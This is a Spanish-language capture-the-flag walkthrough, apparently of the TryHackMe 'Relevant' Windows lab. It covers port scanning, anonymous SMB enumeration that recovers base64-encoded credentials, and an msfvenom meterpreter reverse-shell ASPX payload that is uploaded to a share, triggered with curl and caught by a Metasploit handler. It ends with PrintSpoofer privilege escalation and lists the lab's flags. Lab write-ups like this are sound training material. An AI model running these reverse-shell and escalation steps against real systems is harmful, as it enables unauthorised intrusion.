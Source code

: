 # Relevant

## Escaneo de puertos

Realizamos primero un escaneo de puertos para ver los puertos abiertos de la máquina vulnerable.

```
nmap -A -sV -sC -T4 -p- 10.10.121.56
```

Después de esperar unos minutos tenemos los siguientes resultados:

![Escaneo de puertos](./images/Pasted_image_20250222121711.png)

Y estos son los resultados del script de`nmap`.

![Imagen](./images/Pasted_image_20250222124555.png)

## Enumerating

Tenemos un servicio HTTP por el puerto 80. Sólo nos aparece la página por defecto de Microsoft IIS.

![Imagen](./images/Pasted_image_20250222122114.png)

Vamos a enumerar los directorios con`gobuster`.

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.121.56
```
![Imagen](./images/Pasted_image_20250222124555.png)

Pero no encontramos nada relevante.

Ahora probamos a enumerar con SMB. Usamos el siguiente comando:

```
smbclient -L 10.10.121.56
```

Accedemos como anónimo y nos muestra los siguientes resultados en los que vemos que hay un sharename llamado`nt4wrksv`.

![Imagen](./images/Pasted_image_20250222123358.png)

Probamos a acceder:

```
smbclient \\\\10.10.121.56\\nt4wrksv
```
![Imagen](./images/Pasted_image_20250222123524.png)

Listamos el contenido de la ubicación en la que estamos y hay un archivo de`passwords.txt`.

![Imagen](./images/Pasted_image_20250222123614.png)

Nos los descargamos y salimos.

```
get passwords.txt
```
![Imagen](./images/Pasted_image_20250222123702.png)

Mostramos el contenido en el anfitrión.

![Imagen](./images/Pasted_image_20250222123727.png)

Y vemos que claramente está codificado en Base64. Decodificamos con el siguiente comando:

```
echo -n Qm9iIC0gIVBAJCRXMHJEITEyMw== | base64 -d 
```
![Imagen](./images/Pasted_image_20250222123850.png)

El usuario es`Bob`y la contraseña es`!P@$$W0rD!123`.

Y la de Bill también tenemos:

`bill`

```
Juw4nnaM4n420696969!$$$
```
![Imagen](./images/Pasted_image_20250222123958.png)

Hacemos otro escaneo de`nmap`para determinar qué vulnerabilidades hay:

```
nmap -oA nmap-vuln -Pn -script vuln -p 80,135,139,445,3389 10.10.121.56
```

El servidor de Samba es probablemente vulnerable a RCE por el **CVE-2017-0143**.

![Imagen](./images/Pasted_image_20250222125516.png)

## Exploitation

Vamos a usar`msfvenom`para crear una reverse shell aprovechándonos del exploit.

```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.8.3.33 lport=4444 -f aspx -o shell.aspx
```
![Imagen](./images/Pasted_image_20250222130621.png)

Subimos la reverse shell al network share.

```
put shell.aspx
```
![Imagen](./images/Pasted_image_20250222131746.png)

Iniciamos un puerto en escucha en Metasploit:

```
msfconsole -q
```

Usamos el siguiente exploit:

```
use exploit/multi/handler
```

Cargamos el payload que queremos:

```
set payload windows/x64/meterpreter_reverse_tcp
```

Configuramos la IP y el puerto con la de Kali en la VPN.

```
set lhost 10.8.3.33
set lport 4444
```

Ejecutamos el exploit:

```
run
```
![Imagen](./images/Pasted_image_20250222132122.png)

Abrimos la shell en la víctima

```
curl http://10.10.160.251:49663/nt4wrksv/shell.aspx 
```

Y se nos inicia la consola de meterpreter que estaba en escucha.

![Imagen](./images/Pasted_image_20250222134122.png)

La flag de users está en la siguiente ubicación:

```
cat c:/users/bob/desktop/user.txt
```
![Imagen](./images/Pasted_image_20250222134239.png)

```
THM{fdk4ka34vk346ksxfr21tg789ktf45}
```

## Escalada de privilegios

Comprobamos los privilegios que tiene la sesión de meterpreter.

![Imagen](./images/Pasted_image_20250222134526.png)

Tenemos el de`SeImpersonatePrivilege`.

Nos descargamos`PrintSpoofer64.exe`.

https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0

Y subimos el archivo.

![Imagen](./images/Pasted_image_20250222135514.png)

Nos ubicamos donde está el PrintSpoofer64.exe y lo ejecutamos.

```
PrintSpoofer64.exe -i -c powershell.exe
```

![Imagen](./images/Pasted_image_20250222140243.png)

Finalmente, obtenemos la flag del root.

![Imagen](./images/Pasted_image_20250222140501.png)

```
THM{1fk5kf469devly1gl320zafgl345pv}
```


